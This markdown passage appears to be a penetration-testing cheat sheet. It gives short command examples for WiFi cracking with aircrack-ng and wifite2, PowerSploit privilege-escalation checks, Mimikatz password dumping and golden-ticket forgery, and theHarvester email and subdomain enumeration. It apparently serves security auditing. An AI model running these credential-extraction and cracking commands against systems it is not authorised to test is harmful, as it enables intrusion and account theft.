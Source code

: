 ### **Aircrack-ng Suite**
```bash
# Monitor mode
airmon-ng start wlan0

# Capture handshakes
airodump-ng wlan0mon

# Crack WPA2
aircrack-ng -w wordlist.txt capture.cap
```

### **Wifite2 - Automated WiFi Auditing**
```bash
# Automated WiFi testing
wifite2 --wpa --dict /path/to/wordlist.txt
```

## Post-Exploitation Tools 🔓

### **PowerSploit - PowerShell Post-Exploitation**
```powershell
# Load PowerSploit
Import-Module PowerSploit

# Get system information
Get-ComputerInfo

# Privilege escalation check
Invoke-PrivescAudit
```

### **Mimikatz - Credential Extraction**
```bash
# Extract passwords from memory
mimikatz "sekurlsa::logonpasswords"

# Golden ticket attack
mimikatz "kerberos::golden /user:admin /domain:company.com /sid:S-1-5-21... /krbtgt:hash /ticket:golden.kirbi"
```

## OSINT & Reconnaissance 🔍

### **theHarvester - Email/Subdomain Discovery**
```bash
# Email enumeration
theharvester -d company.com -l 500 -b all

# Subdomain discovery
theharvester -d company.com -b google,bing,yahoo
```

